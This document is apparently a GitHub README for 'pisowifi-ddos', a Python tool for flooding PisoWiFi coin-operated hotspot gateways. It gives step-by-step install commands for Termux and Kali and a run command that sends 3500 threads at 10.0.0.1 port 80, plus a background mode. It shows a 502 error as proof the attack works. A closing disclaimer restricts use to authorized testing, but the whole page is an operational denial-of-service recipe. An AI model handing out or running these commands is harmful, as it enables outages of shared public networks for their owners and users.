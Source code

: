 # Pisowifi DDOS
10.0.0.1 = 502 Bad Gateway Error

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/proof.png">
</div>

# Requirements
- Termux

# Manual Install
<details><summary> Expand
</summary>
  
```
pkg update && pkg upgrade -y
```
```
pkg install git python -y
```
```
git clone https://github.com/xiv3r/pisowifi-ddos.git
```
```
cd pisowifi-ddos
```
```
chmod 755 ddos.py
```
```
python ddos.py
```
</details>

# Auto Install
Termux
```
pkg update && pkg upgrade -y && pkg install git python -y && git clone https://github.com/xiv3r/pisowifi-ddos.git && chmod 755 pisowifi-ddos/ddos.py && cd pisowifi-ddos && ls
```

<details><summary> Kali
</summary>
  
```
sudo update && sudo apt upgrade -y && sudo apt install git python3 -y && git clone https://github.com/xiv3r/pisowifi-ddos.git && chmod 755 pisowifi-ddos/ddos.py && cd pisowifi-ddos && ls
```
</details>

# Run
```
cd pisowifi-ddos
```
```
python ddos.py -s 10.0.0.1 -p 80 -t 3500
```

<details><summary> Background mode
</summary>

```
python ddos.py -s 10.0.0.1 -p 80 -t 3500 > /dev/null 2>&1 &
```
</details>

<details><summary> kill the process
</summary>
  
```
pkill -f python
```
</details>

# Screenshot

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/ddos.png">
</div>

## ⚠️ Disclaimers
`"This tool is intended solely for ethical cybersecurity purposes, such as penetration testing, vulnerability assessments, and authorized research. Unauthorized use to disrupt networks, services, or systems is illegal and violates cybersecurity laws. Misuse may result in severe legal penalties, including fines and imprisonment. Always obtain explicit permission before testing any system. By using this tool, you agree to comply with all applicable laws and assume full responsibility for your actions."`
